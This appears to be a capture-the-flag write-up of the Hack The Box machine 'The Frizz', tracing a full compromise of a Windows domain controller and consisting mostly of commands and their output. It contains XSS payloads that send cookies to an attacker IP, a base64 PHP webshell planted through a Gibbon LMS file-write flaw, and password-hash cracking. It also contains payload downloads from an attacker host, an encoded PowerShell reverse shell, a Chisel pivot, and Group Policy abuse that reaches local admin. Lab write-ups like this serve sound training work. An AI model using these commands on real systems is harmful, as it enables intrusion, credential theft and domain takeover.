


The Frizz#
Initial Enumeration#
nmap -sC -sV -Pn 10.129.58.161 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-16 20:33 GMT
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.26% done; ETC: 20:34 (0:00:00 remaining)
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.41% done; ETC: 20:34 (0:00:00 remaining)
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.41% done; ETC: 20:34 (0:00:00 remaining)
Nmap scan report for 10.129.58.161
Host is up (0.051s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp open domain Simple DNS Plus
80/tcp open http Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-17 03:34:00Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-03-17T03:34:08
|_ start_date: N/A
|_clock-skew: 6h59m59s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.14 seconds
DNS Enum#
Simple DNS Plus is the default on domain controllers, Getting all records.
dig +short ANY @10.129.58.161 frizz.htb
192.168.120.50
10.129.58.161
frizzdc.frizz.htb.
frizzdc.frizz.htb. hostmaster.frizz.htb. 114 900 600 86400 3600
dead:beef::1f98:f30e:e1e3:79b4
Adding everything we found so far to my hosts file.
10.129.58.161 hostmaster.frizz.htb frizzdc.frizz.htb frizz.htb FRIZZDC
SMB Enum#
Trying a few things for potential non authenticated access to the shares, but nope
smbclient -N -L //10.129.58.161
nxc smb 10.129.58.161 -u '' -p '' --shares
nxc smb 10.129.58.161 -u 'guest' -p '' --shares
nxc smb 10.129.58.161 -u 'guest' -p 'asdf' --shares
Kerberos User Enum#
Launching a user enum bruteforce in the background
kerbrute userenum \
-d frizz.htb \
--dc 10.129.58.161 \
-o valid_ad_users \
/usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
SSH Enum#
That’s not typically something common, but it’s there
nc frizz.htb 22
SSH-2.0-OpenSSH_for_Windows_9.5
Password auth is not enabled
ssh f.frizzle@frizz.htb
The authenticity of host 'frizz.htb (10.129.58.161)' can't be established.
ED25519 key fingerprint is SHA256:667C2ZBnjXAV13iEeKUgKhu6w5axMrhU346z2L2OE7g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'frizz.htb' (ED25519) to the list of known hosts.
f.frizzle@frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).
Apache Web Server#
Now that’s weird, that kinda stands out on a windows box but looking at the http headers, just like ssh it looks like it’s installed on windows rather than a container, navigating to the homepage
lol
wl-paste |base64 -d
Want to learn hacking but don't want to go to jail? You'll learn the in's and outs of Syscalls and XSS from the safety of international waters and iron clad contracts from your customers, reviewed by Walkerville's finest attorneys.
An LMS is a Learning Management System or something
Powered by Gibbon v25.0.00
Potentially/maybe important information
*NOTICE** Due to unplanned Pentesting by students, WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos.
We’re on v25
searchsploit gibbon
-------------------------------------------------- --------------------------
Exploit Title | Path
-------------------------------------------------- --------------------------
Gibbon LMS < v26.0.00 - Authenticated RCE | php/webapps/51903.py
Gibbon LMS v26.0.00 - SSTI vulnerability | php/webapps/51962.txt
-------------------------------------------------- --------------------------
Shellcodes: No Results
So those may be interesting to explore
searchsploit -m php/webapp/51903.py
searchsploit -m php/webapp/51962.txt
The RCE is authenticated and we don’t have an account yet, so I’m looking at the SSTI first, the both seem to be related as they have been found by the same ppl and their CVE numbers are back to back
ssti = CVE-2024-24724
rce = CVE-2024-24725
Nevermind, looking at the code of the ssti this needs a username and password too, so we need a valid username and password, lets look at the login flow in burp, it’s a php site and the login page expects data in multipart form
The Login page, since the mail password are incorrect we get a 302 found and we’re sent back to http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail
POST /Gibbon-LMS/login.php?loginReturn=fail1 HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Length: 766
Origin: http://frizzdc.frizz.htb
Connection: close
Referer: http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail1
Cookie: G60fa1cd0af7be78b=1ulfv4rkdrqlvd3cu3vnea1j9b
Upgrade-Insecure-Requests: 1
Priority: u=0, i
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="address"
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="method"
default
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="username"
niet@frizz.htb
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="password"
whatever
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="gibbonSchoolYearID"
025
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="gibboni18nID"
0002
------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4--
If we try the forgot password button, that’s what gets sent, we get a 200 nothing really seems to happen on the browser side, we just remain on the index.ph page.
GET /Gibbon-LMS/index.php?q=passwordReset.php HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail1
Cookie: G60fa1cd0af7be78b=1ulfv4rkdrqlvd3cu3vnea1j9b
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Could this be something similar to this other box? forgot.htb
[22:37:17] 500 - 631B - /cgi-bin/printenv.pl
[22:37:58] 301 - 329B - /home -> http://frizz.htb/home/
curl -i http://frizz.htb/cgi-bin/printenv.pl
HTTP/1.1 500 Internal Server Error
Date: Mon, 17 Mar 2025 05:39:46 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
Content-Length: 631
Connection: close
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
f.frizzle@frizz.htb to inform them of the time this error occurred,
and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12 Server at frizz.htb Port 80</address>
</body></html>
The 500 error message gives us fiona’s email, and by extension her samaccountname
kerbrute userenum \
-d frizz.htb \
--dc 10.129.58.161 \
valid_ad_users
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/16/25 - Ronnie Flathers @ropnop
2025/03/16 22:42:55 > Using KDC(s):
2025/03/16 22:42:55 > 10.129.58.161:88
2025/03/16 22:42:55 > [+] VALID USERNAME: f.frizzle@frizz.htb
2025/03/16 22:42:55 > [+] VALID USERNAME: administrator@frizz.htb
2025/03/16 22:42:55 > Done! Tested 4 usernames (2 valid) in 0.051 seconds
We can also guess a few other characters from googling about the magic schoolbus
kerbrute userenum \
-d frizz.htb \
--dc 10.129.58.161 \
users
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/16/25 - Ronnie Flathers @ropnop
2025/03/16 22:55:13 > Using KDC(s):
2025/03/16 22:55:13 > 10.129.58.161:88
2025/03/16 22:55:13 > [+] VALID USERNAME: v.frizzle@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: administrator@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: c.ramon@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: p.terese@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: a.perlstein@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: w.li@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: f.frizzle@frizz.htb
2025/03/16 22:55:13 > [+] VALID USERNAME: d.hudson@frizz.htb
2025/03/16 22:55:13 > Done! Tested 8 usernames (8 valid) in 0.041 seconds
hydra \
-L loot/emails \
-P ~/.local/share/seclists/rockyou.txt \
10.10.11.42 \
ldap2 \
-V \
-f
nxc ldap 10.129.58.161 \
-u loot/emails \
-p ~/.local/share/seclists/rockyou.txt \
--ignore-pw-decoding
Those are the CVEs I played with#
ssti = [CVE-2024-24724](https://packetstorm.news/files/id/177857)
rce = [CVE-2024-24725](https://packetstorm.news/files/id/177635/)
xss = [CVE-2023-45881](https://herolab.usd.de/security-advisories/usd-2023-0024/)
file write = [CVE-2023-45878](https://herolab.usd.de/security-advisories/usd-2023-0025/)
CVE-2023-45881 - XSS (Unsuccessfull)#
curl -i \
-x "http://localhost:8080" \
--url "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php" \
-F "id=body" \
-F "bodyfile1=@file.jpg;filename=<img src=x onerror=new Image().src='http://10.10.16.84:9090?cookie='+document.cookie>.jpg" \
-F "imagesAsLinks=Y"
curl -i \
--url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
-F "id=body" \
-F "bodyfile1=@file.jpg;filename=<img src=x onerror=new Image().src='http://10.10.16.71:9090?cookie='+document.cookie>.jpg" \
-F "imagesAsLinks=Y"
curl -i \
-x http://localhost:8080 \
--url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php' \
-F "id=body" \
-F "bodyaddress=" \
-F "bodyfile1=nothing;filename=../<img src=X onerror=eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>.gif" \
-F "bodyfile2=" \
-F "bodyfile3=" \
-F "bodyfile4=" \
-F "imagesAsLinks=Y"
curl -i \
-x http://localhost:8080 \
--url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php' \
-F "id=body" \
-F "bodyaddress=" \
-F "bodyfile1=nothing;filename=../<img src=x onerror=new Image().src='http://10.10.16.71:1111?cookie='+document.cookie>.jpg" \
-F "bodyfile2=" \
-F "bodyfile3=" \
-F "bodyfile4=" \
-F "imagesAsLinks=Y"
filename="../<img src=X onerror=eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>.gif"
curl -i \
--url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
-F "id=body" \
-F "bodyfile1=@hamster.jpg;filename=<img src=x onerror=new Image().src='http://10.10.16.71:9090?cookie='+document.cookie>.jpg" \
-F "imagesAsLinks=Y"
curl -i \
--url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
-F "id=body" \
-F "bodyfile1=@hamster.jpg;filename=<img src=X onerror=eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>.gif" \
-F "imagesAsLinks=Y"
http://localhost/index.php?q=/modules/Planner/planner_view_full.php&gibbonPlannerEntryID=00000000000001&viewBy=date&gibbonCourseClassID=&date=2025-03-20&width=1000&height=5500
curl -i \
-x http://localhost:8080 \
--url "http://localhost/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-d 'img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001'
CVE-2023-45878 - Arbitrary File Write#
This one ended up being that one that worked for me, the poc is a simple file inclusion that drops a php webshell at the root of the webserver
POST /modules/Rubrics/rubrics_visualise_saveAjax.php HTTP/1.1
Host: localhost:8080
[...]
img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001
Doing that with curl
curl -i \
-x http://localhost:8080 \
--url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php' \
-d ' img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001'
With that webshell I’m uploading a PowerJoker shell
powershell -c iwr "http://10.10.16.71:9090/joke.ps1" -o ./joke.ps1
powershell -c "./joke.ps1"
Database credentials exposure#
We know gibbon typically uses a mysql db, Looking at the source files, it seems the creds are stored here
type C:\xampp\htdocs\Gibbon-LMS\config.php
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'Mist********';
$databaseName = 'gibbon';
Pivot with Chisel#
Building chisel for windows
GOOS=windows go build .
Get it on the box
iwr "http://10.10.16.71:9090/chisel.exe" -o ./chisel.exe
Running a socks5 proxy
./chisel server -p 4040 --socks5 --reverse
./chisel.exe client 10.10.16.71:4040 R:1080:socks
Access the database through the proxy
proxychains mysql -u MrGibbonsDB -h 127.0.0.1 --password='Mist********' -D gibbon --skip-ssl -A
Pillage the database to get f.frizzle’s hash
MariaDB [gibbon]> select username,passwordstrong,passwordstrongsalt from gibbonperson;
+-----------+------------------------------------------------------------------+------------------------+
| username | passwordstrong | passwordstrongsalt |
+-----------+------------------------------------------------------------------+------------------------+
| f.frizzle | 067************************************************************* | /aACFhikmNopqrRTVz2489 |
+-----------+------------------------------------------------------------------+------------------------+
1 row in set (0.408 sec)
Crack salted sha256#
This is a salted sha256
wl-paste|wc -c
64
Looking at passwordResetProcess.php, according to the source code it’s hashed like that:
//Update password
$salt = getSalt();
$passwordStrong = hash('sha256', $salt.$passwordNew);
So in hashcat format that would be:
cat hash.txt
067******************************************************:/aACFhikmNopqrRTVz2489
And according to the source code it’s mode 1420
1420 | sha256($salt.$pass) | Raw Hash salted and/or iterated
This laptop is ancient, I can’t run hashcat on it so I’m starting a digital ocean droplet
doctl compute droplet create test \
--size s-4vcpu-8gb \
--image ubuntu-24-10-x64 \
--region lon1 \
--ssh-keys 45956874
Install hashcat on it and clinfo to make sure we have a working Open CL runtime on the machine
apt-get install hashcat clinfo
Get rockyou in the box
scp ~/.local/share/seclists/rockyou.txt root@134.***********:
And run hashcat
hashcat -m 1420 hash rockyou.txt
We quickly crack the password
hashcat -m1420 --show hash
067******************************************************:/aACFhikmNopqrRTVz2489:Je**********
And we can delete the droplet
doctl compute droplet delete test
SSH with Kerberos#
ssh f.frizzle@frizz.htb
f.frizzle@frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).
sudo timedatectl set-ntp false
sudo ntpdate frizz.htb
getTGT.py frizz.htb/f.frizzle:Je**********
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in f.frizzle.ccache
export KRB5CCNAME=f.frizzle.ccache
kinit
klist
Ticket cache: FILE:f.frizzle.ccache
Default principal: f.frizzle@FRIZZ.HTB
Valid starting Expires Service principal
03/23/2025 00:14:17 03/23/2025 10:14:17 krbtgt/FRIZZ.HTB@FRIZZ.HTB
renew until 03/24/2025 00:14:17
sudo vim /etc/krb5.conf
[libdefaults]
default_realm = FRIZZ.HTB
dns_lookup_realm = false
dns_lookup_kdc = true
[realms]
FRIZZ.HTB = {
kdc = frizz.htb
admin_server = frizz.htb
}
[domain_realm]
.frizz.htb = FRIZZ.HTB
frizz.htb = FRIZZ.HTB
cat ~/.ssh/config
KexAlgorithms diffie-hellman-group18-sha512,ecdh-sha2-nistp521
Host *
GSSAPIAuthentication yes
GSSAPIDelegateCredentials yes
ssh -v f.frizzle@FRIZZ.HTB
BloodHound#
Get sharphound on the box
iwr "http://10.10.16.71:9090/SharpHound.exe" -OutFile ./SharpHound.exe
Run it
.\SharpHound.exe -c all
Exfiltrate the results
scp f.frizzle@FRIZZ.HTB:Documents/20250322182342_BloodHound.zip .
Credential exposure#
There’s a 7z archive in there, out of that shtuff, whatever that is there’s a config file with a password in it, and it seems relevant if you read it in reverse.
wl-paste|base64 -d
!sub**********
TGT as m.schoolbus#
We can get a TGT out of that password as m.schoolbus
getTGT.py frizz.htb/m.schoolbus:'!sub**********'
SSH didn’t work for me the first time though so I started looking around for things I could do with that TGT
We could pass the TGT, also didn’t work
psexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
wmiexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
smbexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
Kerberoasting, also didn’t work
GetUserSPNs.py \
-dc-host FRIZZ.HTB \
FRIZZ.HTB/f.frizzle -k -no-pass
Trying to see if I could change user directly in powershell, didn’t work
Start-Process -FilePath “powershell.exe” -Credential $Credential
$Cred = Get-Credential
Enter-PSSession -Cred $Cred -Computername frizzdc
With Nishang, didn’t work
cp Invoke-PowerShellTcpOneLine.ps1 ~/www
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf16le | base64 -w0 > nish
Start-Process -FilePath powershell -argumentlist "-enc IwAkAHMAbQA9ACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADYALgA3ADEAJwAsADQAMgA0ADIAKQApAC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB0AD0AMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpAD0AJABzAG0ALgBSAGUAYQBkACgAJABiAHQALAAwACwAJABiAHQALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAD0AKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHQALAAwACwAJABpACkAOwAkAHMAdAA9ACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAKABpAGUAeAAgACQAZAAgADIAPgAmADEAKQApADsAJABzAG0ALgBXAHIAaQB0AGUAKAAkAHMAdAAsADAALAAkAHMAdAAuAEwAZQBuAGcAdABoACkAfQAKAA==" -Credential $Cred
After a good night sleep and a box reset, SSH as m.schoolbus just worked…
Abuse WriteGPLink#
The graph when looking at m.schoolbus’s outbound access control looks kinda cool

More specifically that’s the interesting bit

m.schoolbus has WriteGPLink over those 2 OUs which have genericWrite over the Administrators group, at the time of my SharpHound collection m.schoolbus, was a member of Administrator, but I assume it’s because of somebody else’s exploitation of this very misconfiguration, as when looking at group membership for m.schoolbus in the box right now, I don’t think we’re a member
whoami /Groups
I’m getting pre-compiled version of SharpGPOAbuse from SharpCollection
Tangent with a bunch of commands#
The following bunch was not necessarilly successfull, but still worth keeping as notes
Download and load powerview
iwr "http://10.10.16.71:9090/PowerView.ps1" -OutFile ./PowerView.ps1
powershell.exe -nop -exec bypass
Import-Module .\PowerView.ps1
Get GPOs
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
Get-NetGPO | select displayname
Get-GPO -Name "Default Domain Policy"
Get-GPO -Name "Default Domain Controllers Policy"
Get-GPPermission `
-Guid 31b2f340-016d-11d2-945f-00c04fb984f9 `
-TargetType User `
-TargetName m.schoolbus
net view \\frizz.htb
iwr "http://10.10.16.71:9090/SharpGPOAbuse.exe" -OutFile ./SharpGPOAbuse.exe
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "Default Domain Controllers Policy"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "Default Domain Policy"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "asdf"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "100"
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount 'm.schoolbus' --GPOName "Default Domain Controllers Policy"
Add-LocalAdmin -Identity 'm.schoolbus' -GPOIdentity "Default Domain Controllers Policy"
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
Get-DomainObjectAcl -Identity "Default Domain Controllers Policy" -ResolveGUIDs | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
Successfully abuse WriteGPLink#
Create a new GPO with built in powershell commands
New-GPO -Name "blnkn"
DisplayName : blnkn
DomainName : frizz.htb
Owner : frizz\M.SchoolBus
Id : 1c8a7cdb-a68a-45e5-8eef-e1b9257c7f27
GpoStatus : AllSettingsEnabled
Description :
CreationTime : 3/23/2025 12:34:48 PM
ModificationTime : 3/23/2025 12:34:48 PM
UserVersion :
ComputerVersion :
WmiFilter :
Add a GPLink to the domain controllers OU
New-GPLink -Name "blnkn" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
GpoId : 1c8a7cdb-a68a-45e5-8eef-e1b9257c7f27
DisplayName : blnkn
Enabled : True
Enforced : False
Target : OU=Domain Controllers,DC=frizz,DC=htb
Order : 2
Get SharpGPOAbuse.exe on the box
iwr "http://10.10.16.71:9090/SharpGPOAbuse.exe" -OutFile ./SharpGPOAbuse.exe
Add m.schoolbus to localadmin group
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount m.schoolbus --GPOName blnkn
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of m.schoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "blnkn" is: {1C8A7CDB-A68A-45E5-8EEF-E1B9257C7F27}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{1C8A7CDB-A68A-45E5-8EEF-E1B9257C7F27}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
PS C:\ProgramData> gpupdate /force
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.
Force a group policy update
gpupdate /force
No that m.schoolbus is local admin Get Runas CSharp on the box
iwr "http://10.10.16.71:9090/RunasCs.exe" -OutFile ./RunasCs.exe
Use it to send a revese shell back to our machine as
.\RunasCs.exe "m.schoolbus" '!sub**********' powershell.exe -r 10.10.16.71:4242